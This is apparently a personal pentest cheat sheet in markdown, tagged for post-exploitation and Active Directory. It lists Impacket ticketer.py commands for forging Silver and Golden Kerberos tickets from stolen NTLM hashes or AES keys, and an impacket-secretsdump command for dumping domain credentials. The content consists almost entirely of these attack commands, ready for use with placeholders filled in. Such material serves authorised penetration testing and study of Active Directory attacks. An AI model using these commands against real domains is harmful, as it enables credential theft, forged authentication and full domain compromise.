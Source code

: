 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#post-exploitation #credential-dumping #ticket-dumping #active-directory
# Generate Silver Tickets with Impacket:
- python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Generate Golden Tickets:
- python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Credential Access with Secretsdump

- impacket-secretsdump username@target-ip -dc-ip target-ip


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
